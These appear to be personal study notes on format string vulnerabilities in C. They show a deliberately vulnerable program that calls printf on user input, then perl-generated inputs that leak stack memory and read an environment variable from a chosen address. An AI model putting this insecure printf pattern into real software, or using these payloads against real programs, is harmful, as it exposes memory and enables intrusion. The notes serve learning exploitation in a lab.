 Let’s take this code for example:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[]) {
    char text[1024];
    static int test_val = -72;
    if(argc < 2) {
        printf("Usage: %s <text to print>\n", argv[0]);
        exit(0);
    }

    strcpy(text, argv[1]);
    printf("The right way to print user-controlled input:\n");
    printf("%s", text);
    printf("\nThe wrong way to print user-controlled input:\n");
    printf(text);
    printf("\n");
    
    // Debug output
    printf("[*] test_val @ 0x%08x = %d 0x%08x\n", &test_val, test_val, test_val);
    exit(0);
}
```

Seems harmless right? `printf(text)`, seems to work fine if we input a simple string. BUT YOU ARE WRONG, this code is actually evil! 😈

If you input a format string, you can see why. Let’s try `%s`:

```
The right way to print user-controlled input:
test%s
The wrong way to print user-controlled input:
[1]    87679 segmentation fault (core dumped)  ./fmt_vuln test%s
```

Well that was expected, there is no guarantee what the next thing in memory is, is a string. What about `%x` then?

```
The right way to print user-controlled input:
test%x
The wrong way to print user-controlled input:
test74736574
[*] test_val @ 0x56559020 = -72 0xffffffb8
```

OH! That does look like an address to me. Let’s try to combine it with perl to examine the memory.

```bash
❯ ./fmt_vuln `perl -e 'print "%08x."x40'`
The right way to print user-controlled input:
%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.
The wrong way to print user-controlled input:
78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.
[*] test_val @ 0x56559020 = -72 0xffffffb8
```

We can see the bytes `25, 30, 38, 78, 2e` repeating a lot, this is because they can be translated to `%08x.`, the string we were spamming. So, let’s try exploiting.

```bash
❯ ./fmt_vuln `perl -e 'print "A"x4 . "%08x."x4'`    
The right way to print user-controlled input:
AAAA%08x.%08x.%08x.%08x.
The wrong way to print user-controlled input:
AAAA41414141.78383025.3830252e.30252e78.
[*] test_val @ 0x56559020 = -72 0xffffffb8
```

Here in the output, we can see that there is `41414141`, that stands for `AAAA`, meaning right from the start, the first format string starts to read it’s data. If we replace the `%08x.` with `%s`, then it would cause a __segfault__, since since there really isn’t anything at that address. 

Let’s try replacing it with a new address. Let’s use the tool from [[Using ENV for binexp]].

Let’s use `$path` as an example.

```bash
❯ ./get_exact_env.o ./fmt_vuln PATH
PATH will be at 0xffffcea0
```

Using this address we can do our best to read it and it worked!
```bash
./fmt_vuln `perl -e 'print "\xa0\xce\xff\xff" . "%s"'`
The right way to print user-controlled input:
%s
The wrong way to print user-controlled input:
/home/soda/scripts/:/home/soda/.npm-packages/bin:/home/soda/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/bin:/opt/android-sdk/cmdline-tools/latest/bin:/opt/android-sdk/platform-tools:/opt/android-sdk/tools:/opt/android-sdk/tools/bin:/opt/cuda/bin:/opt/cuda/nsight_compute:/opt/cuda/nsight_systems/bin:/home/soda/.dotnet/tools:/var/lib/flatpak/exports/bin:/usr/lib/jvm/default/bin:/usr/bin/site_perl:/usr/bin/vendor_perl:/usr/bin/core_perl
[*] test_val @ 0x56559020 = -72 0xffffffb8
```

```ad-note
Note to self: If it's not working look at your perl script, you always mess it up. 🙄
```


Now, let’s try writing to a memory address [[Format string write]]